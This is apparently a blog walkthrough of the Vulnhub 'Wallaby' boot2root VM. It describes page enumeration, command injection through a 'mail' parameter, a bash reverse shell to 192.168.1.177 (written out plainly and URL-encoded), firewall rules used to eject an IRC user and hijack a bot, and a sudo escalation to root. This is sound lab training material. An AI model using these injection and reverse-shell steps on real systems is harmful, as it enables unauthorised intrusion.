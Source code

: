 ```yaml
---
menu: "posts"
Description: "A walkthrough of the Wallaby VM from Vulnhub"
date: "2016-12-30T19:16:02-04:00"
title: "B2R: Wallaby Walkthrough"
Categories: [ "Boot2Root" ]
---
```


## Executive Summary

This machine had an unlisted but open webapp path that allowed for remote command execution. After
establishing a reverse shell as the limited user `www-data`, privilege checks showed the user was allowed to
modify firewall rules. There was also an IRC server that contained a bot that allowed command execution
through the use of the `.run` command. The command would only obey the user `waldo` so modification of the
firewall allows an attacker to kick and assume the `waldo` identity. Now the `.run` command could be run and
a reverse shell with the user `wallaby` could be established. `wallaby` had password-less sudo access, so
elevating to the root user was trivial.


## Tools Used

* nmap - service enumeration
* uniscan - webapp scanner


## Proof of Concept

Upon enumerating available services with nmap, I discovered two ports, 22 and 80. I began to scan with
`uniscan` but this failed and caused the VM to move the web application to a different port. It appeared that
automated tools were going to make this challenge harder, not easier.

After another scan, we find our new port:

![](https://i.imgur.com/U7eKOCh.png)
![](https://i.imgur.com/xuPADKd.png)


Various sorts of manual testing gave us different messages:

![](https://i.imgur.com/WwMxNnj.png)
![](https://i.imgur.com/IS2BlBh.png)

At this point, I decided to automate my enumeration of pages with a custom script.

~~~bash.prettyprint
for word in $(cat /usr/share/dirb/wordlists/common.txt); do
    
    # find pages whose last line does NOT contain the phrase 'what are you trying' ( a 404, essentially )
    curl -q "vm:60080/?page=$word" 2>/dev/null | tail -1 | grep -v 'what are you trying'

    if [[ $? -eq 0 ]]; then
        #if the last command command completed succesfully, print the word we foun
        echo $word
    fi
done | grep -v "/" # don't print results with slashes in them, they're false positives
~~~

This output yielded the pages.

~~~bash.prettyprint
contact
mailer
home
index
blacklist
name
~~~

The most interesting page here was `mailer`:

![](https://i.imgur.com/TNJEtuI.png)

I attempted to see if the `mail` query parameter actually passed through as a system command. It did:

![](https://i.imgur.com/9Yu6Zky.png)

From here we can set up a listener and run a reverse shell by feeding in url encoded commands to the `mail`
query parameter:

~~~bash.prettyprint
bash -c "bash -i >& /dev/tcp/192.168.1.177/443 0>&1"

# becomes

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.177%2F443%200%3E%261%22
~~~

![](https://i.imgur.com/tWhvBSP.png)

Enumerating this user's privileges and networking, we determine that we have control of firewall rules,
there's a rule blocking incoming requests to port 6667, and that there's an IRC server running locally.

![](https://i.imgur.com/1slTkmg.png)

![](https://i.imgur.com/uxK21ov.png)


We can clear the firewall rules with `sudo iptables -F` and connect to the IRC server from the attacking
machine.

![](https://i.imgur.com/b0NDIKS.png) 

![](https://i.imgur.com/IoX9DnK.png) 

If we try to run the `.run` command, `wallabysbot` refuses.

![](https://i.imgur.com/R5Vwo3f.png) 

The code for the and configs for the bot are located in `/home/wallaby/.sopel` and it indicates that we need
to assume the nickname `waldo` in order for us to be able to use this command. We can't do that while waldo
is still logged in so we boot them off with the use of our firewall.

~~~bash.prettyprint
sudo iptables -I OUTPUT -p tcp -m owner --uid-owner 1000 --dport 6667 -s 127.0.0.1 -j DROP
~~~

![](https://i.imgur.com/KCH7TX6.png)

In a while, after a timeout, only `waldo` should be ejected from the room, leaving the ability to steal his
nick and command the bot.

![](https://i.imgur.com/1TnwYcT.png)


With a reverse shell established, we can see that the wallaby user has full, passwordless `sudo` access. From
here, it's just one command to `root`

![](https://i.imgur.com/Ds0KVYg.png)


Thanks to Waldo and Vulnhub for this frustrating but entertaining VM!



## Additional Information

* User `waldo` is running irssi within a tmux session. The socket is located in `/tmp/tmux-1000`
* There exists an irssi DoS vulnerability that could have been used to boot the `waldo` user to assume
  control of the bot.
* The `.py` modules (which runs python commands), at the time of this writing makes an external call to an
  out-of-scope API. It does not run the python command on the target machine. 
* There are at least 3 ways to get a limited shell and at least 2 to get root.

